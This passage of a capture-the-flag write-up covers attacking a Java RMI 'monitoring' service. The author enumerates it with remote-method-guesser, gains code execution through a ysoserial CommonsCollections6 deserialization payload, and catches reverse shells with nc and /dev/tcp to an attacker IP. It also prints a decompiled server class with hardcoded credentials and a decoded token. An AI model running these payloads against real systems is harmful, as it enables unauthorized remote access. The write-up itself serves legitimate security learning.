adding: org/eclipse/jdt/internal/jarinjarloader/JarRsrcLoader.java(in = 5157) (out= 1553)(deflated 69%)
adding: org/eclipse/jdt/internal/jarinjarloader/RsrcURLConnection.java(in = 1579) (out= 533)(deflated 66%)
adding: org/eclipse/jdt/internal/jarinjarloader/RsrcURLStreamHandler.java(in = 1777) (out= 586)(deflated 67%)
adding: org/eclipse/jdt/internal/jarinjarloader/RsrcURLStreamHandlerFactory.java(in = 1529) (out= 457)(deflated 70%)
                                                                                                                             
```

Just another quick check with JD-GUI that shows both the hardcoded serialnumber and the RCE:  


# Second Attempt

Now here I tried a lot without success, apparently upon class changes the java serializer checks a serial number(I guess for tampering purposes) and here I was stuck again so I had to check for tips to use [this](https://github.com/qtc-de/remote-method-guesser/releases/tag/v5.1.0) tool as it is about a RMI Java.

To put it in simple terms, *Java RMI* allows a developer to make a *Java object* available on the network. This opens up a *TCP* port where clients can connect and call methods on the corresponding object.

And to put in easy terms Hacktricks has a whole chapter about it so I can start by enumerating the crap out without much success:

```bash
└─$ java -jar rmg-5.1.0-jar-with-dependencies.jar enum 172.22.1.250 1099
[+] RMI registry bound names:
[+]
[+] 	- monitoring
[+] 		--> com.synacktiv.IMonitoringService (unknown class)
[+] 		    Endpoint: 172.22.1.250:1337  CSF: RMISocketFactory  ObjID: [-52adaf74:19bb208569a:-7fff, -4086953872362734530]
[+]
[+] RMI server codebase enumeration:
[+]
[+] 	- rsrc:./ jar:rsrc:json-lib-2.4-jdk15.jar!/ jar:rsrc:ezmorph-1.0.6.jar!/ jar:rsrc:commons-logging-1.1.1.jar!/ jar:rsrc:commons-lang-2.5.jar!/ jar:rsrc:commons-collections-3.2.1.jar!/ jar:rsrc:commons-beanutils-1.8.0.jar!/
[+] 		--> com.synacktiv.IMonitoringService
[+]
[+] RMI server String unmarshalling enumeration:
[+]
[+] 	- Server complained that object cannot be casted to java.lang.String.
[+] 	  --> The type java.lang.String is unmarshalled via readString().
[+] 	  Configuration Status: Current Default
[+]
[+] RMI server useCodebaseOnly enumeration:
[+]
[+] 	- RMI registry uses readString() for unmarshalling java.lang.String.
[+] 	  This prevents useCodebaseOnly enumeration from remote.
[+]
[+] RMI registry localhost bypass enumeration (CVE-2019-2684):
[+]
[+] 	- Registry rejected unbind call cause it was not sent from localhost.
[+] 	  Vulnerability Status: Non Vulnerable
[+]
[+] RMI Security Manager enumeration:
[+]
[+] 	- Caught Exception containing 'no security manager' during RMI call.
[+] 	  --> The server does not use a Security Manager.
[+] 	  Configuration Status: Current Default
[+]
[+] RMI server JEP290 enumeration:
[+]
[+] 	- DGC rejected deserialization of java.util.HashMap (JEP290 is installed).
[+] 	  Vulnerability Status: Non Vulnerable
[+]
[+] RMI registry JEP290 bypass enumeration:
[+]
[+] 	- RMI registry uses readString() for unmarshalling java.lang.String.
[+] 	  This prevents JEP 290 bypass enumeration from remote.
[+]
[+] RMI ActivationSystem enumeration:
[+]
[+] 	- Caught NoSuchObjectException during activate call (activator not present).
[+] 	  Configuration Status: Current Default

```

Now here seems like the tool should be able to find more dangerous endpoint even if the normal enumeration failed via it's "guessing" mode:

```bash
└─$ java -jar rmg-5.1.0-jar-with-dependencies.jar guess 172.22.1.250 1099
[+] Reading method candidates from internal wordlist rmg.txt
[+] 	752 methods were successfully parsed.
[+] Reading method candidates from internal wordlist rmiscout.txt
[+] 	2550 methods were successfully parsed.
[+]
[+] Starting Method Guessing on 3281 method signature(s).
[+]
[+] 	MethodGuesser is running:
[+] 		--------------------------------
[+] 		[ monitoring ] HIT! Method with signature String login(String dummy, String dummy2) exists!
[+] 		[3281 / 3281] [#####################################] 100%
[+] 	done.
[+]
[+] Listing successfully guessed methods:
[+]
[+] 	- monitoring
[+] 		--> String login(String dummy, String dummy2)

```

Now I have the folllowing informations:

- The bound name(aka monitoring)
- The signature (aka String login(String dummy, String dummy2))
- And I know how to execute a serialized command from the Hacktricks

And my first atttempt is the following:

```bash
└─$ java -jar rmg-5.1.0-jar-with-dependencies.jar serial 172.22.1.250 1099 CommonsCollections1 'nc 10.10.14.164 5555 -e bash' --bound-name monitoring --signature "String login(String dummy, String dummy2)" --yso ./ysoserial-all.jar 
[+] Creating ysoserial payload... failed.
[-] Caught InaccessibleObjectException during gadget generation.
[-] This is caused by the Java module system in newer Java versions.
[-] Retry using Java 8 or pass add-open directives to remote-method-guessers manifest.
[-] Cannot continue from here.

```

# Third attempt

Now the day after I asked for a nudge and apparently the tool was wrong so let's make a step back and check again the guesser, in this case the tool suggests to use "monitoring" as bound-name which is right but the method login is not right:

```bash
┌──(millycash㉿kali-bello)-[~/Downloads/Tools]
└─$ java -jar rmg-5.1.0-jar-with-dependencies.jar guess 172.22.1.250 1099
[+] Reading method candidates from internal wordlist rmg.txt
[+] 	752 methods were successfully parsed.
[+] Reading method candidates from internal wordlist rmiscout.txt
[+] 	2550 methods were successfully parsed.
[+]
[+] Starting Method Guessing on 3281 method signature(s).
[+]
[+] 	MethodGuesser is running:
[+] 		--------------------------------
[+] 		[ monitoring ] HIT! Method with signature String login(String dummy, String dummy2) exists!
[+] 		[3281 / 3281] [#####################################] 100%
[+] 	done.
[+]
[+] Listing successfully guessed methods:
[+]
[+] 	- monitoring
[+] 		--> String login(String dummy, String dummy2)
                                                                   
```

Now searching the string "monitoring" I can see in the code that it is used in a class named "**IMonitoringService**":



And this class seems using 3 methods where **login()** was suggested but never worked, and **getStatus()** isn't getting any parameters, but **sendData()** it will be the right one as it actually sends the data to the backend!



Now the tool suggest to runt this right?

```bash
─$ java --add-opens=java.base/java.util=ALL-UNNAMED --add-opens=java.base/java.lang=ALL-UNNAMED --add-opens=java.base/sun.reflect.annotation=ALL-UNNAMED -jar rmg-5.1.0-jar-with-dependencies.jar serial 172.22.1.250 1099 CommonsCollections6 "bash -c 'bash -i >& /dev/tcp/10.10.14.164/5555 0>&1'" --bound-name "monitoring" --signature "String login(String dummy, String dummy2)" --yso ./ysoserial-all.jar
[+] Creating ysoserial payload... done.
[+]
[+] Attempting deserialization attack on RMI endpoint...
[+]
[+] 	Using non primitive argument type java.lang.String on position 1
[+] 	Specified method signature is String login(String dummy, String dummy2)
[+]
[+] 	Caught ClassCastException during deserialization attack.
[+] 	The server uses either readString() to unmarshal String parameters, or
[+] 	Deserialization attack was probably successful :)

```

But it never worked, so instead it must use the **sendData(with a string, and a object)**:

```bash
└─$ java --add-opens=java.base/java.util=ALL-UNNAMED --add-opens=java.base/java.lang=ALL-UNNAMED --add-opens=java.base/sun.reflect.annotation=ALL-UNNAMED -jar rmg-5.1.0-jar-with-dependencies.jar serial 172.22.1.250 1099 CommonsCollections6 "nc 10.10.14.164 5555 -e /bin/bash" --bound-name "monitoring" --signature "String sendData(String dummy, Object dummy2)" --yso ./ysoserial-all.jar
[+] Creating ysoserial payload... done.
[+]
[+] Attempting deserialization attack on RMI endpoint...
[+]
[+] 	Using non primitive argument type java.lang.Object on position 1
[+] 	Specified method signature is String sendData(String dummy, Object dummy2)
[+]
[+] 	Caught ClassNotFoundException during deserialization attack.
[+] 	Server attempted to deserialize canary class b359b5bb59324bce913327d9ae2ba269.
[+] 	Deserialization attack probably worked :)

```

And I have a shell again!



# Road to second flag

Now I see still no access to a new subnet so I will try scaveng as much as I can for later use starting from the second flag:

```bash
monitoring@watcher:~$ ls -al
ls -al
total 1312
drwxr-xr-x 2 monitoring monitoring    4096 Jan 18 15:31 .
drwxr-xr-x 3 root       root          4096 Feb 19  2021 ..
lrwxrwxrwx 1 root       root             9 Feb 19  2021 .bash_history -> /dev/null
-rw-r--r-- 1 monitoring monitoring     220 Feb 19  2021 .bash_logout
-rw-r--r-- 1 monitoring monitoring    3526 Feb 19  2021 .bashrc
-rw-r--r-- 1 monitoring monitoring     807 Feb 19  2021 .profile
-rw-r--r-- 1 root       root            37 Mar  5  2021 flag.txt
-rw-r--r-- 1 monitoring monitoring   40530 Jan 18 15:50 logs.txt
-rw-r--r-- 1 monitoring monitoring 1271604 Feb 19  2021 monitoringServer.jar
monitoring@watcher:~$ cat flag.txt
cat flag.txt
SYNACKTIV{TrY_t0_m0n1t0r_My_g@dG3T5}
monitoring@watcher:~$ 

```

Now analyzing the credentials in the server side of the RMI i only see a base64 token:

&nbsp;

```java
package com.synacktiv;

import java.io.BufferedWriter;
import java.io.FileWriter;
import java.io.IOException;
import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;
import net.sf.json.JSONObject;

public class MonitoringService extends UnicastRemoteObject implements IMonitoringService {
  private String login = "admin";
  
  private String passwd = "admin";
  
  private String token = "U8O5cDNTM2Nyw6hUX3QwazNuCg==";
  
  private String logPath;
  
  public MonitoringService() throws RemoteException {
    super(1337);
  }
  
  public void setLogPath(String filePath) {
    this.logPath = filePath;
  }
  
  public String login(String username, String passwd) throws RemoteException {
    JSONObject response = new JSONObject();
    if (username.equals(this.login) && passwd.contentEquals(this.passwd)) {
      System.out.println("[+] Sucessfull login.");
      response.put("status", "OK");
      response.put("token", this.token);
    } else {
      System.out.println("[+] Failed login.");
      response.put("status", "NOK");
      response.put("reason", "invalid creds.");
    } 
    return response.toString();
  }
  
  public String sendData(String token, Object monitoringData) throws RemoteException {
    JSONObject response = new JSONObject();
    if (this.token.equals(token)) {
      System.out.println("[+] Getting the data.");
      try {
        BufferedWriter out = new BufferedWriter(new FileWriter(this.logPath, true));
        out.write("\n==========================\t\tNetworkConn\t\t==========================\n");
        out.write(((MonitoringData)monitoringData).getNetworkConn());
        out.write("\n==========================\t\tNetworkConnListen\t\t==========================\n");
        out.write(((MonitoringData)monitoringData).getNetworkConnListen());
        out.write("\n==========================\t\tProcess\t\t==========================\n");
        out.write(((MonitoringData)monitoringData).getProcess());
        out.close();
      } catch (IOException e) {
        e.printStackTrace();
      } 
      response.put("status", "OK");
      response.put("message", "storing the monitoring data.");
    } else {
      System.out.println("[+] Invalid token.");
      response.put("status", "NOK");
      response.put("reason", "invalid token.");
    } 
    return response.toString();
  }
  
  public String getStatus() throws RemoteException {
    JSONObject response = new JSONObject();
    response.put("status", "OK");
    response.put("message", "monitoring server is running.");
    return response.toString();
  }
}

```

Now I used linpeas here to check for more data, but I wasn't able to get anything out of it. Next i exported the token from the java and saved in my passwords:

```bash
└─# echo "U8O5cDNTM2Nyw6hUX3QwazNuCg==" | base64 -d                                                                                 
Sùp3S3crèT_t0k3n

```

I feel I can move on to the next machine.